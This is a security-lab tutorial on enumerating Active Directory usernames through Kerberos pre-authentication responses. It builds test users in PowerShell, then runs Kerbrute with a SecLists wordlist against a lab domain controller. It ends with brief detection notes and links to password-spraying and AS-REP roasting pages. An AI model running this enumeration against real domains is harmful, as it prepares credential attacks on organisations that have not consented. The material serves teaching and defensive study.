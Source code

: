 ```yaml
---
description: >-
  It is possible to enumerate valid usernames without authentication by sending
  TGT requests with no pre-authentication.
---
```


# Username Enumeration

## Configuring

To implement the attack we need to create a couple users with easy guessable usernames. To do this we can choose some usernames from a populair [list of usernames](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/xato-net-10-million-usernames.txt) from the [SecLists](https://github.com/danielmiessler/SecLists) repository.

We will create the following users:

```
john
david
robert
chris
mike
dave
richard
thomas
steve
mark
```

### Creating users

Previously we created users by using the GUI. Now we will create users using PowerShell. Create the file users.txt and place the usernames in there.

```
cd C:\
notepad users.txt
$password = ConvertTo-SecureString 'ReallySecurePassword123!' -AsPlainText -Force
$files = Get-Content -Path C:\users.txt
ForEach ($name in $files) {
New-ADUser -Name "$name" -GivenName "$name" -SamAccountName "$name" -UserPrincipalName $name@amsterdam.bank.local -Path "OU=Employees,DC=amsterdan,DC=bank,DC=local" -AccountPassword $password -Enabled $true
}
```

![](<../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png>)

Run the command below to check the users are created:

```
Get-ADUser -Filter * | Select-Object Name
```

![](<../../../.gitbook/assets/image (15) (2) (1).png>)

## Attacking

### How it works

> _To enumerate usernames, send TGT requests with no pre-authentication. If the KDC responds with a `PRINCIPAL UNKNOWN` error, the username does not exist. However, if the KDC prompts for pre-authentication, we know the username exists._
>
> _Source:_ [_https://github.com/ropnop/kerbrute#user-enumeration_](https://github.com/ropnop/kerbrute#user-enumeration)\_\_

### Executing the attack

To enumarate usernames we can use the tool [Kerbrute](https://github.com/ropnop/kerbrute). To install Kerbrute on Kali download the latest [release](https://github.com/ropnop/kerbrute/releases) from GitHub and save it somewhere. I would recommend `/opt`.

![](<../../../.gitbook/assets/afbeelding (31).png>)

For the list of usernames download the [xato-net-10-million-usernames.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/xato-net-10-million-usernames.txt) list from [SecLists](https://github.com/danielmiessler/SecLists).

```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/xato-net-10-million-usernames.txt
```

After downloading the tool and the username list run Kerbrute against the domain `amsterdam.bank.local`. Pipe the command to tee to save the output to a txt file.

```
./kerbrute_linux_amd64 userenum -d amsterdam.bank.local --dc 10.0.0.3 xato-net-10-million-usernames.txt | tee username_enum.txt
```

These valid users can be used for AS-REP roasting or Password Spraying Attacks. For now save these users to `usernames.txt`.

![](<../../../.gitbook/assets/image (22) (1) (1) (1) (1).png>)

To only get a list of usernames execute the following:

```
cat username_enum.txt | grep bank.local | cut -d " " -f 8- | cut -d "@" -f 1 | sed 's/./\L&/g' | sort -u > users.txt

cat users.txt                                                                                                       
administrator
bank
chris
dave
david
john
mark
mike
richard
robert
steve
thomas
```

From here we can execute the following attacks to gain access to the domain:



{% content-ref url="password-spraying.md" %}
[password-spraying.md](password-spraying.md)
{% endcontent-ref %}

{% content-ref url="empty-password.md" %}
[empty-password.md](empty-password.md)
{% endcontent-ref %}

{% content-ref url="as-rep-roasting.md" %}
[as-rep-roasting.md](as-rep-roasting.md)
{% endcontent-ref %}

## Defending

### Recommendations

* I dont know any configurations to block the enumeration of usernames. The best way to block this is using a non traditional naming convention for the samaccountnames.

### Detection

The attack generates the Windows event ID [4768](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) "A Kerberos authentication ticket (TGT) was requested" if Kerberos logging is enabled.

**Work in Progress**

## References

{% embed url="https://github.com/danielmiessler/SecLists" %}

{% embed url="https://github.com/ropnop/kerbrute" %}
